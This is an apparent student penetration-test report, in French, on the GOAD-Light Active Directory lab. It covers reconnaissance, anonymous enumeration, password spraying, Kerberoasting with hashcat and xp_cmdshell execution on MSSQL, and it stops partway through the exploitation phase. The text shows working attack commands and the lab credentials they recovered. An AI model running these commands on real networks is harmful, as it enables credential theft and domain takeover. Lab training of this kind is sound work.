# Projet 5OSATTK — Rapport de Pentest Active Directory

---

| | |
|---|---|
| **Auteur** | CACCIATORE Vincent |
| **Binôme** | GRECO Clément |
| **Module** | 5OSATTK - ESTIAM Metz|
| **Date d'exécution** | 13/05/2026 |
| **Suffixe de nommage** | `CG-13-05-2026` (Cacciatore + Greco + date) |

---


## Sommaire

1. [Résumé exécutif](#1-résumé-exécutif)
2. [Contexte & périmètre](#2-contexte--périmètre)
3. [Méthodologie & outillage](#3-méthodologie--outillage)
4. [Synthèse des vulnérabilités](#4-synthèse-des-vulnérabilités)
5. [Phase 1 — Reconnaissance & cartographie réseau](#5-phase-1--reconnaissance--cartographie-réseau)
6. [Phase 2 — Énumération & moisson de comptes](#6-phase-2--énumération--moisson-de-comptes)
7. [Phase 3 — Analyse stratégique](#7-phase-3--analyse-stratégique)
8. [Phase 4 — Exploitation](#8-phase-4--exploitation)
   - [8.1 V01 — Password spraying user=password (hodor)](#81-v01--password-spraying-userpassword-hodor)
   - [8.2 V02 — Mot de passe en clair en attribut LDAP (samwell)](#82-v02--mot-de-passe-en-clair-en-attribut-ldap-samwell)
   - [8.3 V03 — Kerberoasting (jon.snow)](#83-v03--kerberoasting-jonsnow)
   - [8.4 V04 — Exécution de code via xp_cmdshell](#84-v04--exécution-de-code-via-xp_cmdshell)
   - [8.5 V05 — Élévation locale via SeImpersonatePrivilege (GodPotato)](#85-v05--élévation-locale-via-seimpersonateprivilege-godpotato)
   - [8.6 V06 — DCSync sur le domaine NORTH](#86-v06--dcsync-sur-le-domaine-north)
9. [Kill chain consolidée & impact](#9-kill-chain-consolidée--impact)
10. [Recommandations de remédiation](#10-recommandations-de-remédiation)
11. [Vulnérabilités identifiées non exploitées](#11-vulnérabilités-identifiées-non-exploitées)
12. [Limites & axes d'amélioration](#12-limites--axes-damélioration)
13. [Gestion Git & livrables](#13-gestion-git--livrables)
14. [Conclusion](#14-conclusion)
15. [Annexes](#15-annexes)

---

## 1. Résumé exécutif

### 1.1 Objet de la mission

Cet audit avait pour objet l'évaluation offensive d'une infrastructure Windows Active Directory multi-domaines reproduite via le lab pédagogique **GOAD-Light** (Orange Cyberdefense). La mission consistait à se placer dans la peau d'un attaquant disposant d'un accès réseau interne mais d'aucun credential, et à enchaîner des techniques d'attaque réalistes jusqu'à compromission significative.

### 1.2 Verdict global

> **Niveau de risque : CRITIQUE**

En l'espace d'une journée d'exploitation, **6 vulnérabilités** ont été identifiées et exploitées avec succès. La chaîne d'attaque mise en œuvre a permis d'atteindre :

- **NT AUTHORITY\SYSTEM** sur le serveur applicatif **CASTELBLACK** ;
- **Compromission complète du domaine** `north.sevenkingdoms.local` via DCSync (extraction du hash NT du compte `krbtgt` et de l'intégralité de la base AD du domaine enfant).

L'infrastructure cible présente un nombre significatif de défauts de configuration (informations sensibles stockées en clair, comptes faibles, services administratifs activés par défaut) dont l'enchaînement permet une compromission totale à partir d'un simple accès réseau.

### 1.3 Vue d'ensemble



---

## 2. Contexte & périmètre

### 2.1 Cible

L'environnement **GOAD-Light** est un laboratoire offensif open-source maintenu par Orange Cyberdefense. Il reproduit fidèlement les configurations vulnérables couramment observées en mission de pentest réelle sur des SI Active Directory.

L'infrastructure auditée se compose de **trois serveurs Windows Server 2019** organisés en **deux domaines liés par un trust bidirectionnel parent/enfant** :

| Hostname | IP | OS | Rôle | Particularité |
|----------|-----|-----|------|---------------|
| KINGSLANDING | 192.168.56.10 | Win Server 2019 | DC racine du forêt `sevenkingdoms.local` | Defender ON |
| WINTERFELL | 192.168.56.11 | Win Server 2019 | DC enfant `north.sevenkingdoms.local` | Defender ON, LDAP anonyme |
| CASTELBLACK | 192.168.56.22 | Win Server 2019 | Serveur applicatif (IIS + MSSQL + SMB) | Defender OFF, SMB signing OFF |

### 2.2 Périmètre

L'audit a été réalisé en **boîte grise** :

- Accès direct au sous-réseau cible `192.168.56.0/24` depuis un poste Kali (attaquant : `192.168.56.50`) ;
- **Aucun credential utilisateur fourni** au départ.

### 2.3 Objectifs définis

| Objectif | Atteint ? |
|----------|:---------:|
| Cartographie complète des hôtes et services | ✅ |
| Obtention d'un compte utilisateur de domaine | ✅ |
| Exécution de code sur au moins un serveur | ✅ |
| Élévation à `NT AUTHORITY\SYSTEM` | ✅ |
| Compromission d'un domaine (DCSync) | ✅ |
| Rédaction d'un rapport pro avec remédiations | ✅ |

---

## 3. Méthodologie & outillage

### 3.1 Méthodologie

L'audit suit une approche structurée inspirée du **PTES** (Penetration Testing Execution Standard) et de la matrice **MITRE ATT&CK**. Les phases s'enchaînent comme suit :

```
1. Reconnaissance      ── Cartographie passive et active
2. Énumération         ── Inventaire des comptes et droits
3. Analyse stratégique ── Choix des vecteurs d'attaque
4. Exploitation        ── Mise en œuvre de la kill chain
5. Restitution         ── Rapport et recommandations
```

Chaque commande exécutée a été tracée :
- **Output redirigé** vers `logs/pX-<phase>-CG-13-05-2026.log` ;
- **Capture d'écran** pour les éléments visuels marquants.

### 3.2 Stack outillée

| Outil | Phase d'usage | Fonction principale |
|-------|:-------------:|---------------------|
| **Nmap** 7.94 | 1, 2 | Découverte et fingerprinting de services |
| **NetExec** (`nxc`) | 2, 4 | Énumération multi-protocole et exécution de commandes |
| **enum4linux-ng** | 2 | Énumération SMB/RPC anonyme |
| **Impacket** 0.12 | 2, 4 | Suite Python : `GetNPUsers`, `GetUserSPNs`, `mssqlclient`, `secretsdump` |
| **Hashcat** 6.2 | 4 | Cassage hors-ligne des hashs Kerberos (TGS-REP, AS-REP) |
| **smbclient** | 4 | Upload de payload sur partage SMB |
| **GodPotato** 1.20 | 4 | Élévation locale via `SeImpersonatePrivilege` |
| **Git** | Toutes | Versioning et traçabilité |

### 3.3 Choix d'outillage : justification

**Pourquoi cette stack plutôt que Metasploit / Cobalt Strike ?**

| Aspect | Stack retenue | Alternative refusée |
|--------|---------------|---------------------|
| Coût | Open-source, gratuite | Cobalt Strike : payant ; CS-pirate : illégal |
| Discrétion | Scripts Python isolés, signatures faibles | Metasploit : signatures connues de tous les EDR |
| Adaptation au scope | Spécialisée AD | Metasploit : trop généraliste pour de l'abus de configuration |
| Documentation | Massive (mayfly, harmj0y, SpecterOps…) | — |
| Mode CLI scriptable | ✅ (idéal pour reproductibilité Git) | ⚠️ (interface graphique) |

Le sujet impose un framework Red Team Windows ; la combinaison **Impacket + NetExec + BloodHound + GodPotato** correspond exactement à la stack utilisée dans la majorité des audits AD professionnels.

### 3.4 Convention de nommage (consigne projet)

Conformément à la consigne, tous les composants produits portent le suffixe `CG-13-05-2026` (initiale de Cacciatore + initiale de Greco + date du TP) :

```
Repo Git              : E5_5OSATTK_CACCIATORE
Dossier wordlists     : wordlists/north-users-CG-13-05-2026.txt
Logs                  : logs/pX-<phase>-CG-13-05-2026.log
Loot                  : loot/<artifact>-CG-13-05-2026.<ext>
```

### 3.5 Répartition des tâches au sein du binôme

Le projet a été mené **en binôme avec Clément GRECO**. Nous avons choisi un mode de travail en **"pair programming"** plutôt qu'une découpe stricte des phases, pour plusieurs raisons :

- **Pédagogiques** : chacun de nous voulait voir et comprendre chaque étape de la kill chain, pas seulement sa moitié ;
- **Pragmatiques** : sur 1 journée, perdre du temps à se synchroniser entre deux sous-équipes aurait été contre-productif ;
- **Méthodologiques** : un audit AD réel se fait souvent à deux paires d'yeux (l'un manipule, l'autre vérifie/documente).

---

## 4. Synthèse des vulnérabilités

| # | Identifiant | Vulnérabilité | Composant | Criticité | CVSS | Statut |
|---|-------------|---------------|-----------|:---------:|:----:|:------:|
| V01 | CWE-521 | Politique de mot de passe insuffisante (login=password) | AD GPO | 🟠 Élevée | 7.5 | **Exploitée** |
| V02 | CWE-200 | Mot de passe en clair dans `description` LDAP | Annuaire AD | 🔴 Critique | 8.6 | **Exploitée** |
| V03 | CWE-262 | Compte de service kerberoastable à mot de passe faible | Kerberos | 🔴 Critique | 8.8 | **Exploitée** |
| V04 | CWE-732 | `xp_cmdshell` activable sur instance MSSQL | MSSQL Server | 🔴 Critique | 9.0 | **Exploitée** |
| V05 | CWE-269 | `SeImpersonatePrivilege` sur compte de service | Windows | 🔴 Critique | 9.8 | **Exploitée** |
| V06 | CWE-284 | Droits de réplication accordés (DCSync) | AD DC | 🔴 Critique | 9.1 | **Exploitée** |
| V07 | CWE-294 | SMB Signing non requis sur CASTELBLACK | SMB | 🟡 Moyenne | 6.5 | Identifiée |
| V08 | CWE-203 | DontReqPreAuth sur compte utilisateur (AS-REP) | Kerberos | 🟠 Élevée | 7.5 | Identifiée |
| V09 | CWE-269 | Defender désactivé sur serveur applicatif | Hardening | 🟡 Moyenne | 6.0 | Identifiée |

---

## 5. Phase 1 — Reconnaissance & cartographie réseau

### 5.1 Découverte des hôtes actifs

**Commande exécutée :**

```bash
sudo nmap -sn 192.168.56.0/24 -oN logs/p1-discovery-CG-13-05-2026.txt
```

**Résultat consolidé :** 3 hôtes répondent dans le sous-réseau cible :

```
192.168.56.10   kingslanding.sevenkingdoms.local
192.168.56.11   winterfell.north.sevenkingdoms.local
192.168.56.22   castelblack.north.sevenkingdoms.local
```


### 5.2 Identification rapide des rôles via SMB

**Commande exécutée :**

```bash
netexec smb 192.168.56.0/24 | tee logs/p1-netexec-smb-CG-13-05-2026.log
```

**Output :**



**Analyse :**

- **SMB signing forcé** sur les DC (configuration par défaut Windows) ;
- **SMB signing non requis** sur CASTELBLACK → **V07** identifiée. Cela ouvre la voie à du NTLM relay vers cet hôte ;
- Deux domaines détectés → architecture parent/enfant pressentie.

### 5.3 Scan de services détaillé

**Commandes exécutées (parallélisées) :**

```bash
sudo nmap -sCV -p- --min-rate 1500 -oN logs/p1-nmap-kingslanding-CG-13-05-2026.nmap 192.168.56.10
sudo nmap -sCV -p- --min-rate 1500 -oN logs/p1-nmap-winterfell-CG-13-05-2026.nmap   192.168.56.11
sudo nmap -sCV -p- --min-rate 1500 -oN logs/p1-nmap-castelblack-CG-13-05-2026.nmap  192.168.56.22
```


**Synthèse des ports ouverts :**

| Port | Service | KINGSLANDING | WINTERFELL | CASTELBLACK |
|------|---------|:---:|:---:|:---:|
| 53 | DNS | ✅ | ✅ | ❌ |
| 80 | HTTP IIS | ✅ (certsrv ADCS) | ❌ | ✅ |
| 88 | Kerberos | ✅ | ✅ | ❌ |
| 135 | RPC | ✅ | ✅ | ✅ |
| 139/445 | SMB | ✅ | ✅ | ✅ |
| 389/636 | LDAP/LDAPS | ✅ | ✅ | ❌ |
| 1433 | MSSQL | ❌ | ❌ | ✅ |
| 3268/3269 | Global Catalog | ✅ | ✅ | ❌ |
| 3389 | RDP | ✅ | ✅ | ✅ |
| 5985/5986 | WinRM | ✅ | ✅ | ✅ |

**Observations exploitables :**

- KINGSLANDING expose un service IIS sur le port 80 avec endpoint `/certsrv` → présence d'**ADCS Web Enrollment** (vecteur ESC1-ESC8 potentiel, non exploré dans ce scope).
- CASTELBLACK expose **MSSQL 2019** : c'est la machine la plus prometteuse pour de l'exécution de code.

---

## 6. Phase 2 — Énumération & moisson de comptes

### 6.1 Énumération SMB anonyme

**Commande exécutée :**

```bash
enum4linux-ng -A 192.168.56.11 -oA logs/p2-enum4linux-winterfell-CG-13-05-2026
```





WINTERFELL autorise les sessions SMB nulles → l'énumération anonyme retourne :

- La **liste de 10 utilisateurs** du domaine `north.sevenkingdoms.local` ;
- Les **groupes** spécifiques au domaine (Stark, Night Watch, Mormont) ;
- La **politique de mot de passe** : longueur minimale **5 caractères**, pas de complexité requise → **V01 confirmée** ;
- Le **SID** du domaine.

### 6.2 Découverte n°1 : password en clair dans `description`

Au sein de la sortie de `enum4linux-ng`, l'analyse des champs descriptifs des comptes a révélé une information sensible exposée :

```
[+] User: samwell.tarly (rid: 1119)
    description : Samwell Tarly (Password : Heartsbane)
```

→ **V02 confirmée** : un administrateur a inscrit le mot de passe en clair dans le champ description.

Validation immédiate :

```bash
netexec smb 192.168.56.11 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local \
  | tee logs/p2-validate-samwell-CG-13-05-2026.log
```



**Premier credential acquis** : `samwell.tarly:Heartsbane`

### 6.3 Énumération authentifiée — liste complète des comptes

Avec `samwell.tarly`, on peut désormais interroger LDAP en authentifié :

```bash
impacket-GetADUsers -all -dc-ip 192.168.56.11 \
  north.sevenkingdoms.local/samwell.tarly:Heartsbane \
  > logs/p2-getadusers-north-CG-13-05-2026.log

awk 'NR>3 && /\./ {print $1}' logs/p2-getadusers-north-CG-13-05-2026.log \
  > wordlists/north-users-CG-13-05-2026.txt
```


### 6.4 Vérification de la politique de verrouillage

```bash
netexec smb 192.168.56.11 -u samwell.tarly -p Heartsbane --pass-pol \
  > logs/p2-pass-pol-CG-13-05-2026.log
```


Politique détectée :
- Longueur minimale : **5 caractères** (très faible) ;
- Verrouillage après **5 tentatives** en 5 minutes ;
- Pas de complexité.

Cette politique autorise des techniques de password spraying à condition de tester **1 mot de passe à la fois** par utilisateur.

---

## 7. Phase 3 — Analyse stratégique

À partir des informations collectées en phases 1 et 2, plusieurs vecteurs d'attaque ont été priorisés :

| Vecteur | Cible | Pré-requis | Priorité |
|---------|-------|-----------|:--------:|
| Password spraying user=password | Tous les comptes énumérés | Liste users + politique tolérante | 1 |
| AS-REP Roasting | Comptes avec `DontReqPreAuth` | Liste users | 2 |
| Kerberoasting | Comptes avec SPN | Credential standard | 3 |
| MSSQL pivot | CASTELBLACK | Credential sysadmin SQL | 4 |
| Élévation locale Potato | Compte service Windows | Exécution de code | 5 |
| DCSync | DC | Privilèges de réplication | 6 |

### 7.1 Logique de la kill chain envisagée

```
Spray (V01)           ─→ hodor:hodor (compte standard NORTH)
LDAP description (V02) ─→ samwell.tarly:Heartsbane (compte standard NORTH)
Kerberoast (V03)       ─→ jon.snow (sysadmin MSSQL sur CASTELBLACK)
xp_cmdshell (V04)      ─→ shell sous sql_svc
GodPotato (V05)        ─→ NT AUTHORITY\SYSTEM sur CASTELBLACK
secretsdump (V06)      ─→ DCSync NORTH = krbtgt + tous les hashs domaine
```

L'enchaînement est conçu pour aller du moins privilégié au plus privilégié sans dépendance sur des conditions externes incertaines (pas d'attente de logon utilisateur, pas de relay temporel, pas de bypass Defender requis sur CASTELBLACK puisque celui-ci est désactivé).

---

## 8. Phase 4 — Exploitation

### 8.1 V01 — Password spraying user=password (hodor)

#### Fiche vulnérabilité

| Champ | Valeur |
|-------|--------|
| **Identifiant** | V01 |
| **CWE** | CWE-521 (Weak Password Requirements) |
| **Composant** | GPO « Default Domain Policy » de NORTH |
| **Vecteur** | Réseau / authentification SMB |
| **Criticité** | Élevée (CVSS 7.5) |
| **MITRE ATT&CK** | T1110.003 — Password Spraying |

#### Contexte

La politique de mot de passe permet des mots de passe aussi courts que 5 caractères, sans complexité. Cette tolérance autorise des combinaisons triviales du type `login == password`, classique en environnement non audité.

#### Exécution

```bash
netexec smb 192.168.56.11 \
  -u wordlists/north-users-CG-13-05-2026.txt \
  -p wordlists/north-users-CG-13-05-2026.txt \
  --no-bruteforce --continue-on-success \
  > logs/p4-spray-CG-13-05-2026.log
```

L'option `--no-bruteforce` est essentielle : elle apparie chaque ligne du fichier `-u` avec **la ligne correspondante** du fichier `-p`. On teste donc `arya.stark:arya.stark`, `hodor:hodor`, etc., sans risquer de verrouiller les comptes.

#### Résultat

```
SMB  192.168.56.11  445  WINTERFELL  [+] north.sevenkingdoms.local\hodor:hodor
```



**Credential acquis** : `hodor:hodor`

#### Impact

Découverte d'un second compte valide du domaine NORTH avec des droits standards. Hodor ne dispose pas de privilèges remarquables, mais permet :
- D'enrichir le vecteur d'énumération (point de vue différent dans BloodHound) ;
- De maintenir un accès si le compte `samwell.tarly` venait à être révoqué.

---

### 8.2 V02 — Mot de passe en clair en attribut LDAP (samwell)

#### Fiche vulnérabilité

| Champ | Valeur |
|-------|--------|
| **Identifiant** | V02 |
| **CWE** | CWE-200 (Exposure of Sensitive Information) |
| **Composant** | Attribut `description` AD de l'objet `samwell.tarly` |
| **Vecteur** | Réseau / session SMB anonyme |
| **Criticité** | Critique (CVSS 8.6) |
| **MITRE ATT&CK** | T1552.001 — Credentials in Files |

#### Contexte

L'attribut `description` d'un objet utilisateur Active Directory est, par défaut, lisible par tout utilisateur authentifié — et, sur certaines configurations héritées comme c'est le cas ici, par les sessions SMB anonymes. Il s'agit d'un champ texte libre, fréquemment utilisé par les administrateurs pour des notes opérationnelles, et trop souvent abusé pour stocker des mots de passe « temporaires » qui se transforment en permanents.

#### Exploitation

L'exploitation a été décrite en phase 2 (cf. § 6.2). Pour rappel, en une seule commande non authentifiée, l'attribut `description` exposé via énumération anonyme a permis de lire :

```
description : Samwell Tarly (Password : Heartsbane)
```

#### Validation

```bash
netexec smb 192.168.56.11 192.168.56.22 \
  -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local \
  > logs/p4-validate-samwell-multi-CG-13-05-2026.log
```



Le compte s'authentifie sur WINTERFELL et CASTELBLACK (membres du domaine NORTH). Il **échoue** sur KINGSLANDING (`STATUS_LOGON_FAILURE`), confirmant qu'il s'agit bien d'un utilisateur du sous-domaine uniquement.

#### Impact

Sans aucun credential préalable, un attaquant obtient un compte standard du domaine NORTH, ce qui débloque :
- L'énumération LDAP authentifiée complète ;
- L'accès aux partages SMB ouverts en lecture (`NETLOGON`, `SYSVOL`) ;
- L'éligibilité aux attaques Kerberos (Kerberoasting, AS-REP).


---

### 8.3 V03 — Kerberoasting (jon.snow)

#### Fiche vulnérabilité

| Champ | Valeur |
|-------|--------|
| **Identifiant** | V03 |
| **CWE** | CWE-262 (Not Using Password Aging on Service Accounts) |
| **Composant** | Service Kerberos (KDC) du DC WINTERFELL |
| **Vecteur** | Réseau / authentification Kerberos légitime |
| **Criticité** | Critique (CVSS 8.8) |
| **MITRE ATT&CK** | T1558.003 — Kerberoasting |

#### Principe

Le protocole Kerberos délivre des tickets de service (TGS) à tout utilisateur authentifié qui en fait la demande pour un Service Principal Name (SPN). Une portion de ce ticket est chiffrée avec le hash NT du compte associé au SPN. Si ce compte a un mot de passe faible ou présent dans un dictionnaire, le hash peut être cassé hors-ligne — sans plus aucune interaction avec le DC, donc sans aucune trace après la demande initiale.

#### Exécution

```bash
impacket-GetUserSPNs \
  -dc-ip 192.168.56.11 \
  -request \
  -outputfile loot/kerberoast-CG-13-05-2026.hash \
  north.sevenkingdoms.local/samwell.tarly:Heartsbane \
  > logs/p4-kerberoast-CG-13-05-2026.log
```

**Comptes à SPN découverts :**



#### Cassage hors-ligne

```bash
hashcat -m 13100 \
  loot/kerberoast-CG-13-05-2026.hash \
  /usr/share/wordlists/rockyou.txt \
  --force \
  -o loot/kerberoast-cracked-CG-13-05-2026.txt \
  | tee logs/p4-hashcat-kerberoast-CG-13-05-2026.log
```

#### Résultat



**Credential acquis** : `jon.snow:iknownothing`

#### Impact

`jon.snow` est administrateur SQL Server sur CASTELBLACK. Cette information conditionne l'étape suivante : exécution de code via `xp_cmdshell`.

Vérification :

```bash
netexec mssql 192.168.56.22 -u jon.snow -p iknownothing \
  > logs/p4-mssql-validate-CG-13-05-2026.log
```



Le tag `(Pwn3d!)` de NetExec confirme les privilèges `sysadmin`.

---

### 8.4 V04 — Exécution de code via xp_cmdshell

#### Fiche vulnérabilité

| Champ | Valeur |
|-------|--------|
| **Identifiant** | V04 |
| **CWE** | CWE-732 (Incorrect Permission Assignment for Critical Resource) |
| **Composant** | Microsoft SQL Server 2019 sur CASTELBLACK |
| **Vecteur** | Authentification MSSQL avec rôle `sysadmin` |
| **Criticité** | Critique (CVSS 9.0) |
| **MITRE ATT&CK** | T1059.003 — Windows Command Shell |

#### Principe

`xp_cmdshell` est une procédure stockée étendue de SQL Server qui permet à un compte `sysadmin` d'exécuter des commandes système Windows depuis une session SQL. Elle est désactivée par défaut depuis SQL Server 2005 mais reste très souvent réactivée pour des besoins administratifs et oubliée en production.

#### Exécution

Activation et test en une seule commande via NetExec :

```bash
netexec mssql 192.168.56.22 \
  -u jon.snow -p iknownothing \
  -x 'whoami' \
  | tee logs/p4-xpcmdshell-whoami-CG-13-05-2026.log
```

**Output :**



#### Analyse du résultat

L'exécution s'effectue sous l'identité **`north\sql_svc`**, le compte de service SQL Server. Ce n'est pas SYSTEM, mais c'est la clé pour l'étape suivante : ce type de compte de service hérite quasi systématiquement de `SeImpersonatePrivilege`, exploitable par la famille d'attaques « Potato ».

Vérification immédiate des privilèges du compte :

```bash
netexec mssql 192.168.56.22 \
  -u jon.snow -p iknownothing \
  -x 'whoami /priv' \
  | tee logs/p4-xpcmdshell-priv-CG-13-05-2026.log
```

**Output (extrait significatif) :**

